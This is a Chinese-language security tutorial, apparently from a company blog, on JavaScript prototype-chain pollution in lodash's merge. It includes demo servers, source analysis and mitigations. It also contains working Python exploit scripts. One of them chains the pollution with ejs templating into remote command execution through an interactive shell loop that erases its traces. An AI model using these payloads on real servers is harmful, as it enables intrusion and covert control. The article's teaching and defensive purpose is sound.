








# 原型链漏洞污染

## 目录

- [0x00 同学实现一下对象的合并？](#0x00-同学实现一下对象的合并)
- [0x01 JavaScript中的原型链](#0x01-JavaScript中的原型链)
  - [1.1 基本概念](#11-基本概念)
  - [1.2 原型链查找机制](#12-原型链查找机制)
  - [1.3 哪里会用到](#13-哪里会用到)
  - [1.4 风险点分析&原型链污染漏洞原理](#14-风险点分析原型链污染漏洞原理)
- [0x02 Demo演示 & 组合拳](#0x02-Demo演示--组合拳)
  - [2.1 Demo演示](#21-Demo演示)
  - [2.2 分析一下loadsh中merge函数的实现](#22-分析一下loadsh中merge函数的实现)
  - [2.3 漏洞组合拳，拿下服务器权限](#23-漏洞组合拳拿下服务器权限)
  - [2.4 优雅地实现一个攻击脚本](#24-优雅地实现一个攻击脚本)
- [0x03 如何规避或修复漏洞](#0x03-如何规避或修复漏洞)
  - [3.1 可能存在漏洞的场景](#31-可能存在漏洞的场景)
  - [3.2 如何规避](#32-如何规避)
- [0x04 问题 & 探索](#0x04-问题--探索)
  - [4.1 更多问题](#41-更多问题)
  - [4.2 探索](#42-探索)

> 作为前端开发者，某天偶然遇到了原型链污染漏洞，原本以为没有什么影响，好奇心驱使下，抽丝剥茧，发现原型链污染漏洞竟然也可以拿下服务器的shell管理权限，不可不留意！

某天正奋力的coding，机器人给发了这样一条消息


查看发现是一个叫“原型链污染”（`Prototype chain pollution`）的漏洞，还好这只是 dev 依赖，当前功能下几乎没什么影响，其修复方式可以通过升级包版本即可。


“原型链污染”漏洞，看起来好高大上的名字，和“[互联网黑话](https://mp.weixin.qq.com/s?__biz=MzIyODQzNTMyMA==\&mid=2247484048\&idx=1\&sn=a59370d48c616ed9ecee83027b4b580a\&scene=21#wechat_redirect "互联网黑话")”有得一拼，好奇心驱使下，抽丝剥茧地研究一番。

**目前该漏洞影响了框架常用的有：**

- `Lodash` <= 4.15.11
- `Jquery` < 3.4.0
- ...

# 0x00 同学实现一下对象的合并？

面试官让被面试的同学写个对象合并，该同学一听这问题，就这，就这，`30s`就写好了一份利用递归实现的对象合并，代码如下：

```javascript 
function merge(target, source) {
    for (let key in source) {
        if (key in source && key in target) {
            merge(target[key], source[key])
        } else {
            target[key] = source[key]
        }
    }
}

```


可是面试的同学不知道，他实现的代码，会埋下一个原型链污染的漏洞，大家下次面试新同学的时候，可以问问了

为啥会有原型链污染漏洞？

那么接下来，我们一起深入浅出地认识一下原型链漏洞，以便于在日常开发过程中就规避掉这些可能的风险。

# 0x01 JavaScript中的原型链

## 1.1 基本概念

> 在javaScript中，实例对象与原型之间的链接，叫做原型链。其**基本思想是利用原型让一个引用类型继承另一个引用类型的属性和方法。然后层层递进，就构成了实例与原型的链条，** 这就是所谓原型链的基本概念。

三个名词：

1. **隐式原型**：所有引用类型（函数、数组、对象）都有 `__proto__` 属性，例如`arr.__proto__`
2. **显式原型**：所有函数拥有`prototype`属性，例如：`func.prototype`
3. **原型对象**：拥有`prototype`属性的对象，在定义函数时被创建

原型链之间的关系可以参考图1.1：

图1.1 原型链关系图



## 1.2 原型链查找机制

当一个变量在调用某方法或属性时，如果当前变量并没有该方法或属性，就会在该变量所在的原型链中依次向上查找是否存在该方法或属性，如果有则调用，否则返回`undefined`

## 1.3 哪里会用到

在开发中，常常会用到 `toString()`、`valueOf()`等方法，`array`类型的变量拥有更多的方法，例如`forEach()`、`map()`、`includes()`等等。例如声明了一个`arr`数组类型的变量，arr变量却可以调用如下图中并未定义的方法和属性。



通过变量的隐式原型可以查看到，数组类型变量的原型中已经定义了这些方法。例如某变量的类型是`Array`，那么它就可以基于原型链查找机制，调用相应的方法或属性。



## 1.4 风险点分析&原型链污染漏洞原理

首先看一个简单的例子：

```javascript 
var a = {name: 'dyboy', age: 18};
a.__proto__.role = 'administrator'
var b = {}
b.role    // output: administrator

```


实际运行结果如下：


运行结果

可以发现，给隐式原型增加了一个`role`的属性，并且赋值为`administrator`（管理员）。在实例化一个新对象`b`的时候，虽然没有`role`属性，但是通过原型链可以读取到通过对象a在原型链上赋值的‘`administrator`’。

问题就来了，`__proto__`指向的原型对象是可读可写的，如果通过某些操作（常见于`merge`，`clone`等方法），使得黑客可以增、删、改原型链上的方法或属性，那么程序就可能会因原型链污染而受到`DOS`、越权等攻击

# 0x02 Demo演示 & 组合拳

## 2.1 Demo演示

Demo使用`koa2`来实现的服务端：

```javascript 

const Koa = require("koa");
const bodyParser = require("koa-bodyparser");
const _ = require("lodash");

const app = new Koa();
app.use(bodyParser());

// 合并函数
const combine = (payload = {}) => {
  const prefixPayload = { nickname: "bytedanceer" };
  // 用法可参考：https://lodash.com/docs/4.17.15#merge
  _.merge(prefixPayload, payload);
  // 另外其他也存在问题的函数：merge defaultsDeep mergeWith
};

app.use(async (ctx) => {
  // 某业务场景下，合并了用户提交的payload
  if(ctx.method === 'POST') {
    combine(ctx.request.body);
  }
  // 某页面某处逻辑
  const user = {
    username: "visitor",
  };
  let welcomeText = "同学，游泳健身，了解一下？";
  // 因user.role不存在，所以恒为假（false），其中代码不可能执行
  if (user.role === "admin") {
    welcomeText = "尊敬的VIP，您来啦！";
  }
  ctx.body = welcomeText;
});
app.listen(3001, () => {
  console.log("Running: http://localohost:3001");
});

```


当一个游客用户访问网址：[http://127.0.0.1:3001/](http://127.0.0.1:3001/ "http://127.0.0.1:3001/") 时，页面会显示“同学，游泳健身，了解一下？”



可以看到在代码中使用了`loadsh`（4.17.10版本）的`merge()`函数，将用户的`payload`和`prefixPayload`做了合并。

乍一看，似乎并没有什么问题，对于业务似乎也不会产生什么问题，无论用户访问什么都应该只会返回“同学，游泳健身，了解一下？”这句话，程序上`user.role`是一个恒为为`undefined`的条件，则永远不会执行`if`判断体中的代码。

然而使用特殊的`payload`测试，也就是运行一下我们的`attack.py`脚本



当我们再访问http\://127.0.0.1:3001时，会发现返回的结果如下：



瞬间变成了健身房的VIP对吧，可以快乐白嫖了？此时，无论什么用户访问这个网址，返回的网页都会是显示如上结果，**人人VIP时代**。如果是咱写的代码在线上出现这问题，【事故通报】了解一下。


[attact.py](http://attact.py "attact.py") 的代码如下：

```javascript 
import requests
import json
req = requests.Session()
target_url = 'http://127.0.0.1:3001'
headers = {'Content-type': 'application/json'}
# payload = {"__proto__": {"role": "admin"}}
payload = {"constructor": {"prototype": {"role": "admin"}}}
res = req.post(target_url, data=json.dumps(payload),headers=headers)
print('攻击完成！')
```


攻击代码中的`payload：{"constructor": {"prototype": {"role": "admin"}}}` 通过`merge()` 函数实现合并赋值，同时，由于`payload`设置了`constructor`，`merge`时会给原型对象增加`role`属性，且默认值为`admin`，所以访问的用户变成了“VIP”

## 2.2 分析一下loadsh中merge函数的实现

分析的`lodash`版本4.17.10（感兴趣的同学可以拿到源码自己手动追溯👀）`node_modules/lodash/merge.js`中通过调用了`baseMerge(object, source, srcIndex)`函数 则定位到：`node_modules/lodash/_baseMerge.js` 第20行的`baseMerge`函数

```javascript 
function baseMerge(object, source, srcIndex, customizer, stack) {
  if (object === source) {
    return;
  }
  baseFor(source, function(srcValue, key) {
    // 如果合并的属性值是对象
    if (isObject(srcValue)) {
      stack || (stack = new Stack);
      // 调用 baseMerge
      baseMergeDeep(object, source, key, srcIndex, baseMerge, customizer, stack);
    }
    else {
      var newValue = customizer
        ? customizer(safeGet(object, key), srcValue, (key + ''), object, source, stack)
        : undefined;
      if (newValue === undefined) {
        newValue = srcValue;
      }
      assignMergeValue(object, key, newValue);
    }
  }, keysIn);
}

```


关注到`safeGet`的函数：

```javascript 
function safeGet(object, key) {
  return key == '__proto__'
    ? undefined
    : object[key];
}

```


这也是为什么上面的`payload`为什么没使用`__proto__`而是使用了等同于这个属性的构造函数的`prototype`

有`payload`是一个对象因此定位到`node_modules/lodash/_baseMergeDeep.js`第32行：

```javascript 
function baseMergeDeep(object, source, key, srcIndex, mergeFunc, customizer, stack) {
  var objValue = safeGet(object, key),
      srcValue = safeGet(source, key),
      stacked = stack.get(srcValue);
  if (stacked) {
    assignMergeValue(object, key, stacked);
    return;
  }

```


定位函数`assignMergeValue` 于 `node_modules/lodash/_assignMergeValue.js`第13行

```javascript 
function assignMergeValue(object, key, value) {
  if ((value !== undefined && !eq(object[key], value)) ||
      (value === undefined && !(key in object))) {
    baseAssignValue(object, key, value);
  }
}

```


再定位`baseAssignValue`于`node_modules/lodash/_baseAssignValue.js`第12行

```javascript 
function baseAssignValue(object, key, value) {
  if (key == '__proto__' && defineProperty) {
    defineProperty(object, key, {
      'configurable': true,
      'enumerable': true,
      'value': value,
      'writable': true
    });
  } else {
    object[key] = value;
  }
}

```


绕过了`if`判断，然后进入`else`逻辑中，是一个简单的直接赋值操作，并未对`constructor`和`prototype`进行判断，因此就有了：

```javascript 
prefixPayload = { nickname: "bytedanceer" };
// payload：{"constructor": {"prototype": {"role": "admin"}}}
_.merge(prefixPayload, payload);
// 然后就给原型对象赋值了一个名为role，值为admin的属性

```


故而导致了用户会进入一个不可能进入的逻辑里，也就造成了上面出现的“越权”问题。

## 2.3 漏洞组合拳，拿下服务器权限

从上面的Demo案例中，你可能会有种错觉：原型链漏洞似乎并没有什么太大的影响，是不是不需要特别关注（相较于`sql`注入，`xss`，`csrf`等漏洞）。

真的是这样吗？来看一个稍微修改了的另一个例子（增加使用了`ejs`渲染引擎），以原型链污染漏洞为基础，我们一起拿下服务器的`shell`！

```javascript 
const express = require('express');
const bodyParser = require('body-parser');
const lodash = require('lodash');
const app = express();
app
    .use(bodyParser.urlencoded({extended: true}))
    .use(bodyParser.json());
app.set('views', './views');
app.set('view engine', 'ejs');
app.get("/", (req, res) => {
    let title = '游客你好';
    const user = {};
    if(user.role === 'vip') {
        title = 'VIP你好';
    }
    res.render('index', {title: title});
});
app.post("/", (req, res) => {
    let data = {};
    let input = req.body;
    lodash.merge(data, input);
    res.json({message: "OK"});
});
app.listen(8888, '0.0.0.0');

```


该例子基于`express`+`ejs`+`lodash`，同理，访问`localhost:8888`也是只会显示游客你好，同上可以使用原型链攻击，使得“人人VIP”，但不仅限于此，我们还可以深入利用，借助ejs的渲染以及包含原型链污染漏洞的`lodash`就可以实现`RCE`（`Remote Code Excution`，远程代码执行）


先看看我们可以实现的攻击效果：



可以看到，借助`attack.py`脚本，我们可以执行任意的`shell`命令，于此同时我们还保证了不会影响其他用户（管理员无法轻易感知入侵），在接下来的情况黑客就会常识性地进行提权、权限维持、横向渗透等攻击，以获取更大利益，但与此同时，也会给企业带来更大损失。

上面的攻击方法，是基于`loadsh`的原型链污染漏洞和`ejs`模板渲染相配合形成的代码注入，进而形成危害更大的`RCE`漏洞。

## 2.4 优雅地实现一个攻击脚本


优雅的地方就在于，让管理员和其他用户基本不会有感知，能够偷偷摸摸拿下服务器的shell。

Exploit完整脚本如下：

```javascript 
import requests
import json

req = requests.Session()

target_url = 'http://127.0.0.1:8888'

headers = {'Content-type': 'application/json'}

# 无效攻击
# payload = {"__proto__": {"role": "vip"}}

# 普通的逻辑攻击
payload = {"content":{"constructor": {"prototype": {"role": "vip"}}}}

# RCE攻击
# payload = {"content":{"constructor": {"prototype": {"outputFunctionName": "a; return global.process.mainModule.constructor._load('child_process').execSync('ls /'); //"}}}}

# 反弹shell，比如反弹到MSF/CS上

# 模拟一个交互式shell
if __name__ == "__main__":
    payload = '\{"content":\{"constructor": \{"prototype": \{"outputFunctionName": "a; return global.process.mainModule.constructor._load(\'child_process\').execSync(\'{}\'); //"\}\}\}\}'
    while(True):
        shell = input('shell: ')
        if shell == '':
            continue
        if shell == 'exit':
            break
        formatStr = "a; return global.process.mainModule.constructor._load('child_process').execSync('" + shell +"'); //"
        payload = {"content":{"constructor": {"prototype": {"outputFunctionName": formatStr}}}}

        res = req.post(target_url, data=json.dumps(payload),headers=headers)

        res2 = req.get(target_url)

        print(res2.text)

        # 处理痕迹
        formatStr = "a; return delete Object.prototype['outputFunctionName']; //"
        payload = {"content":{"constructor": {"prototype": {"outputFunctionName": formatStr}}}}
        res = req.post(target_url, data=json.dumps(payload),headers=headers)
        req.get(target_url)

```


# 0x03 如何规避或修复漏洞

## 3.1 可能存在漏洞的场景

- 对象克隆
- 对象合并
- 路径设置

## 3.2 如何规避

首先，原型链的漏洞其实需要攻击者对于项目工程或者能够通过某些方法（例如文件读取漏洞）获取到源码，攻击的研究成本较高，一般不用担心。但攻击者可能会通过一些脚本进行批量黑盒测试，或借助某些经验或规律，便可降低研究成本，所以也不能轻易忽略此问题。

1. 及时升级包版本：公司的研发体系中，安全运维参与整个过程，在打包等操作时，会自动触发安全检测，其实就提醒了开发者可能存在有风险的三方包，这就需要大家及时升级对应的三方包到最新版，或者尝试替换更加安全的包。
2. 关键词过滤：结合漏洞可能存在场景，可多关注下对象拷贝和合并等代码块，是否针对`__proto__`、`constructor`和`prototype`关键词做过滤。
3. 使用`hasOwnProperty`来判断属性是否直接**来自于目标，这个方法会忽略从原型链上继承到的属性**。
4. 在处理 `json` 字符串时进行判断，过滤敏感键名。
5. 使用 `Object.create(null)` **创建没有原型的对象。**
6. 用`Object.freeze(Object.prototype)`冻结`Object`的原型，使`Object`的原型无法被修改，注意该方法是一个浅层冻结。

# 0x04 问题 & 探索

## 4.1 更多问题

1. **Q**：为什么在demo案例中payload中不用`__proto__`？

   **A**：在我使用的`loadsh`库4.17.10版本中，发现针对`__proto__`关键词做了判断和过滤，因此想到了通过访问构造函数的`prototype`的方式绕过



1. **Q**：在Demo中，为什么被攻击后，任意用户访问都是VIP身份了？

   **A**：`JavaAcript`是单线程执行程序的 **，所以原型链上的属性相当于是**`global`，所有连接的用户都共享，当某个用户的操作改变了原型链上的内容，那么所有访问者访问程序的都是基于修改之后的原型链

## 4.2 探索

作为安全研究人员，上面演示的原型链漏洞看似威胁并不大，但实际上黑客的攻击往往是漏洞的组合，当一个轻危级别的漏洞，作为高危漏洞的攻击的基础，那么低危漏洞还能算是低危漏洞吗？这更需要安全研究人员，不仅要追求对高危漏洞的挖掘，还得增强对基础漏洞的探索意识。

作为开发人员，我们可以尝试下，如何借助工具快速检测程序中是否存在原型链污染漏洞，以期望加强企业程序的安全性。幸运的是，在公司内部已经通过编译平台做了一些安全检查，大家可以加强对于安全的关注度。

原型链污染的利用难度虽然较大，但是基于其特性，所有的开源库都在npm上可以看到，如果恶意的黑客，通过批量检测开源库，并且通过搜集特征，那么他想要获取攻击目标程序的是否引用具有漏洞的开源库也并非是一件困难的事情。

那么我们自己写一个脚本去Github上刷一波，也不是不行...
